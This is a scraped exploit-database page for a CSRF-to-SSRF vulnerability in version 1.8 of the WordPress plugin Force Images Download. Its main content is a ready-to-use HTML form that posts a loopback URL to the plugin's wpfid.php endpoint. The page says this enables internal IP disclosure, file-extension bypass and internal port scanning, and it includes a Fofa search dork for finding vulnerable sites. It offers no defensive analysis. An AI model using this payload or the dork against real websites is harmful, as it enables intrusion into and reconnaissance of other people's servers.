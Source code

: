 ```yaml
---
title: WordPress Force Images Download 1.8 CSRF / SSRF exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173513&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-18
fetch_date: 2025-10-04T11:51:15.800025
---
```


# WordPress Force Images Download 1.8 CSRF / SSRF exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Force Images Download 1.8 CSRF / SSRF

2023-07-17 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173513
# Exploit Author : Etharus
# Vulnerability : Cross Site Request Forgery to Server Side Request Forgery
# Impact : internal ip disclosure , file extension bypass, internal port scan.
# Product Vendor : Nazakat Ali
# Version Tested : 1.8
# Date : 14/07/2023
# Fofa Dork : "/wp-content/plugins/wp-force-images-download/"

<form id="wpfid-form" method="post" action="https://target/wp-content/plugins/wp-force-images-download/wpfid.php">
<input name="wpfid_pic_url" type="text" placeholder="[TARGET URL] : http://127.0.0.1/?r=bypass.jpg">
<br><input name="new_name" type="hidden" value="">
<button style="background: gray; --darkreader-inline-bgcolor: #60686c; --darkreader-inline-bgimage: none;" class="d-btn" id="wpfid_button" type="submit" title="Download" data-darkreader-inline-bgcolor="" data-darkreader-inline-bgimage="">
<span style="line-height: 30px;" class="wpfid_title">Download</span>
</button>
</form>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)